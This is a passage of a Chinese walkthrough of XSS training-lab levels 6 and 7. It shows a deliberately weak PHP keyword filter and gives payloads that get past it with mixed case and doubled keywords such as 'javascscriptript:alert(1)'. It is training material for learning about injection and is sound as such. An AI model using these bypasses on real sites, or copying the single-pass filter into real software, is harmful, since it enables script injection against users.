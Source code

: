 ```php
?>
```

#### 构造XSS语句

但是`str_replace()` 函数以其他字符替换字符串中的一些字符（区分大小写）。

由于区分大小写，这时我们尝试将提交XSS语句中涉及过滤关键字的部分大小写绕过(这里只是单纯过滤关键字，没有使用正则表达式匹配，如果使用了正则匹配，则无法大小写绕过过滤)，则XSS语句写成

```
3333"><a Href="javascript:alert(1);">链接文本</a><"
```

提交后执行成功

![](https://gitee.com/YatJay/image/raw/master/img/202203060949593.png)

### Level-7

查看第7关过滤代码，重点是将提交参数先全部转为小写字符，再将其中的关键字替换为空

```php
<?php 
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

尝试提交第6关的XSS，无法触发，查看页面源代码

![](https://gitee.com/YatJay/image/raw/master/img/202203060954954.png)

![](https://gitee.com/YatJay/image/raw/master/img/202203060954392.png)

可见提交参数中，涉及过滤的关键字都被替换为空，而且大小写也无法绕过，因为后端对于提交参数进行了全部转小写字符

#### 构造XSS语句

但是我们看到过滤代码只进行一次过滤，而非递归或循环过滤，因此我们将涉及的过滤关键字再写一遍插入到原关键字中，使得过滤时触发关键字被替换为空，过滤后又拼组成关键字并带到前端。则XSS语句为

```
3333"><a hrhrefef="javascscriptript:alert(1);">链接文本</a><"
```

提交后执行成功
